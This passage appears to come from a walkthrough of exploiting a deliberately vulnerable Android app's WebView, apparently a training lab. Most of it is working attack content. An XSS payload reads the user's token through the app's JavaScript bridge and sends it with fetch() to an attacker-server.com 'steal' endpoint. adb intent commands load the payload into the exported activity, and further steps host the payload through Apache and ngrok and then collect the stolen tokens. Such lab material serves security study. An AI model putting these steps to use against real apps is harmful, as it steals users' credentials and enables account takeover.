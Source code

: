 **Exploit JavaScript Code**:

```html
<script type="text/javascript">
    // Display an alert (proof of XSS)
    alert("XSS Exploited!");
    // Perform other malicious actions, such as stealing cookies or tokens
    var token = Android.getUserToken();
    fetch('https://attacker-server.com/steal?token=' + token);
</script>
```

**Steps**:

1. Host the above script on a server.
2.  Use an intent to load the malicious URL in the WebView:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/xss.html"
    ```
3. The WebView will execute the JavaScript, demonstrating XSS.

***

#### Example Setup for Exploitation

**1. Host the Exploit Script**

* Save the exploit JavaScript code in an HTML file (e.g., `exploit.html`).
*   Host it using a local server (e.g., Apache) or Ngrok for external access:

    ```bash
    sudo service apache2 start
    ./ngrok http 80
    ```
* Use the Ngrok HTTPS link (e.g., `https://8d95c0fe086f.ngrok.io/exploit.html`).

**2. Trigger the Exploit**

*   Use an ADB command to launch the vulnerable activity and load the exploit URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://8d95c0fe086f.ngrok.io/exploit.html"
    ```

**3. Capture Exfiltrated Data**

* Monitor the attacker's server for incoming requests containing the stolen token or other sensitive data.



